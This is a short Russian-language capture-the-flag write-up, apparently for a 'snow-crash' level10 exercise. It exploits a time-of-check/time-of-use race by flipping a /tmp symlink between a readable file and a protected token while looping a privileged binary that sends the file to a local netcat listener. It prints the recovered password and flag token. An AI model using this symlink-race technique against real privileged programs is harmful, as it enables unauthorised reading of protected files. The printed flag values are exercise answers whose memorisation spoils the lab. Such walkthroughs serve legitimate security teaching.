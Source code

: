 В папке у нас два файла. Токен и приложение level10

К Токену у нас нет доступа.

level10 требует два параметра, файл для отправки и адрес отправки.
При декомпиляции выяснилось что программа отправляет данные на порт 6969.
Так же, очевидно что данные отправлять нам нужно на локалхост (127.0.0.1), т.к. в локальной сети больше ничего у нас нет.
Как мы видим, у level10 и token есть права на чтение/запись для user flag10 
Мы попытаемся получить доступ к level10, но вместо этого откроем token
Для этого мы создадим символьную ссылку, которая будет почти мгновенно переключаться между level10 и token

while true; 
do ln -fs ~/level10 /tmp/aaa; 
ln -fs ~/token /tmp/aaa; 
done

Затем мы будем бесконечно вызывать ./level10

while true; 
do ./level10 /tmp/aaa 127.0.0.1; 
done

Начинаем слушать порт 6969

nc -lk 6969
...
...
...
...
PROFIT!

Среди кучи мусорных данных находим ключ!

.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.

sy flag10
getflag

Check flag.Here is your token : feulo4b72j7edeahuete3no7c





